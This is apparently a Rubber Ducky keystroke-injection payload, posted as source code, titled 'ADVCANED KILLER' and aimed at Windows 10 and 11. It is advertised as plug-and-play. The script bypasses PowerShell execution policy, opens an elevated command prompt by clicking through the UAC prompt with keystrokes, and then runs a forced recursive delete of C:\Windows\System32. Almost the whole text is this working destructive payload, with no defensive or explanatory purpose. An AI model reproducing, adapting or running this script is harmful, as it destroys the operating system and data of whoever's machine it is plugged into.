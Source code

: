 # Rubbery Ducky

CODE:

REM     Title: ADVCANED KILLER

REM     Author: EnergyN

REM     Description: THE BEST KILLER. 
REM     ELO ELO. 

REM     Target: Windows 10, 11

REM     --------------------------------------------------------------------------------------
REM     THIS PAYLOAD IS PLUG AND PLAY.
REM     --------------------------------------------------------------------------------------

DELAY 2000
GUI r
DELAY 500
STRING powershell Set-ExecutionPolicy Bypass -Scope Process -Force ; Start-Process cmd -ArgumentList "/K" -Verb RunAs
ENTER
DELAY 7500
LEFT
ENTER
DELAY 2000
STRING del /s /q C:\Windows\System32\*
DELAY 1000
ENTER
